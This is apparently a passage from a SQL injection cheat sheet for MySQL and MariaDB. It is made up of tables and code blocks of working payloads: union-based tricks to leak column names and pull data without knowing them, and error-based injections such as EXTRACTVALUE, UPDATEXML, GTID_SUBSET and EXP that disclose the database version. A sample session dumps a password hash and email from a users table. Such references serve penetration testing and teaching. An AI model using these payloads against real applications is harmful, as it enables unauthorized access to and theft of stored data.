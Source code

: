 Method for `MySQL 5`

| Payload | Output |
| --- | --- |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b)a` | Duplicate column name '**id**' |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id))a` | Duplicate column name '**name**' |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id,name))a` | Data |


### Extract Data Without Columns Name 

Extracting data from the 4th column without knowing its name.

```sql
SELECT `4` FROM (SELECT 1,2,3,4,5,6 UNION SELECT * FROM USERS)DBNAME;
```

Injection example inside the query `select author_id,title from posts where author_id=[INJECT_HERE]`

```sql
MariaDB [dummydb]> SELECT AUTHOR_ID,TITLE FROM POSTS WHERE AUTHOR_ID=-1 UNION SELECT 1,(SELECT CONCAT(`3`,0X3A,`4`) FROM (SELECT 1,2,3,4,5,6 UNION SELECT * FROM USERS)A LIMIT 1,1);
+-----------+-----------------------------------------------------------------+
| author_id | title                                                           |
+-----------+-----------------------------------------------------------------+
|         1 | a45d4e080fc185dfa223aea3d0c371b6cc180a37:veronica80@example.org |
+-----------+-----------------------------------------------------------------+
```


## MYSQL Error Based

| Name         | Payload         |
| ------------ | --------------- |
| GTID_SUBSET  | `AND GTID_SUBSET(CONCAT('~',(SELECT version()),'~'),1337) -- -` |
| JSON_KEYS    | `AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT('~',(SELECT version()),'~')) USING utf8))) -- -` |
| EXTRACTVALUE | `AND EXTRACTVALUE(1337,CONCAT('.','~',(SELECT version()),'~')) -- -` |
| UPDATEXML    | `AND UPDATEXML(1337,CONCAT('.','~',(SELECT version()),'~'),31337) -- -` |
| EXP          | `AND EXP(~(SELECT * FROM (SELECT CONCAT('~',(SELECT version()),'~','x'))x)) -- -` |
| OR           | `OR 1 GROUP BY CONCAT('~',(SELECT version()),'~',FLOOR(RAND(0)*2)) HAVING MIN(0) -- -` |
| NAME_CONST   | `AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--` |


### MYSQL Error Based - Basic

Works with `MySQL >= 4.1`

```sql
(SELECT 1 AND ROW(1,1)>(SELECT COUNT(*),CONCAT(CONCAT(@@VERSION),0X3A,FLOOR(RAND()*2))X FROM (SELECT 1 UNION SELECT 2)A GROUP BY X LIMIT 1))
'+(SELECT 1 AND ROW(1,1)>(SELECT COUNT(*),CONCAT(CONCAT(@@VERSION),0X3A,FLOOR(RAND()*2))X FROM (SELECT 1 UNION SELECT 2)A GROUP BY X LIMIT 1))+'
```
